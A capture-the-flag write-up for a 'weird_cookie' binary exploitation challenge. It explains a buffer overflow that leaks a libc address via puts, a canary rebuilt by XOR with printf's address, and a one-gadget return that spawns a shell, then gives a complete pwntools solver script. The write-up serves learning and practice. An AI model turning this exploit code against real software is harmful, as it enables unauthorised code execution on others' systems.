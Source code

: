 [[Pwn]]

## Leaking Address with Puts() And Generating Canary Binary Exploitation

- This binary has static canary that xored with `printf` address every time when going to main function to get the final canary.
- Our input is stored in buffer variable that only afford 40 bytes data, and we have our overflow at read(0,buffer,64). We only have 24 bytes overflow, but It's enough to overwrite the return address because canary is 16 bytes and the return address is 8 bytes
- If we pass more than 40 bytes characters, the puts(buffer) will start leaking address. I got stack address leak at the 16th leak by passing 56 bytes characters. The leak is `__libc_start_main+96` so I need `__libc_start_main` offset + 96 for the purpose of calculating LIBC base address. Use `readelf` to get the `__libc_start_main` offset.
- Because we get the LIBC base address, we can start generate the canary by xoring the initial canary value with the address of `printf`
- We only have 8 bytes to overwrite the return address, so we can't use ret2libc technique, but we can use one gadget to spawn a shell. One gadget only requires 8 bytes to spawn a shell because it's `LIBC Address + onegadget offset` so it's only 8 bytes.

## Solver
```python
from pwn import *

def start(argv=[], *a, **kw):
	if args.GDB:
		return gdb.debug([exe] + argv, gdbscript=gdbscript, *a, **kw)
	elif args.REMOTE:
		return remote(sys.argv[1], sys.argv[2], *a, **kw)
	else:
		return process([exe] + argv, *a, **kw)

gdbscript='''
init-pwndbg
breakrva 0x11a8
breakrva 0x1213
breakrva 0x1257
breakrva 0x1263
continue
'''.format(**locals())

exe = "./weird_cookie_patched"
elf = context.binary = ELF(exe, checksec=False)
context.log_level = "info"

io = start()
libc = ELF("./libc-2.27.so")
offset = 56
payload = b'A' * offset

io.sendline(payload)
io.recvuntil("A"*offset)
io.recvline()
libc_start_main_leak = unpack(io.recvline()[:-1].ljust(8, b'\x00'))
libc_start_main_leak = int(hex(libc_start_main_leak) + "00", 16)
info(f"libc start main leak : {hex(libc_start_main_leak)}")
libc.address = libc_start_main_leak - (0x021ba0 + 96)
info(f"LIBC Base : {hex(libc.address)}")
info(f"Printf address : {hex(libc.sym['printf'])}")
hardcoded_canary = 1311768467463790321
canary = hardcoded_canary ^ libc.sym["printf"]
info(f"Canary : {hex(canary)}")
offset_canary = 40
oneshot = [0x4f2a5, 0x4f302, 0x10a2fc]
payload2 = flat({offset_canary: [
	canary, b'\x00' * 8,
	libc.address + oneshot[1]
]})

io.sendline(payload2)
io.interactive()
```